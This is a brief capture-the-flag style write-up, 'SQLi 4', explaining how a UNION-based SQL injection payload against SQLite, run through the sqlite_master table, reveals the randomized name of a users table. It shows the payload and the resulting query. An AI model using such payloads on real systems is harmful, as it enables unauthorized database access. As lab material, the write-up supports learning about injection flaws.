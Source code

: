 # SQLi 4

Since the server uses sqlite \
Query: admin" UNION SELECT tbl_name FROM sqlite_master WHERE tbl_name LIKE "users%

SQL Query formed (REDACTED is the randomized name of users table)

```sql
SELECT username FROM REDACTED WHERE username LIKE "admin" UNION SELECT tbl_name FROM sqlite_master WHERE tbl_name LIKE "users%"
```

This gives the name os the users table, now do same as [SQLi 3](./SQLi%203.md)
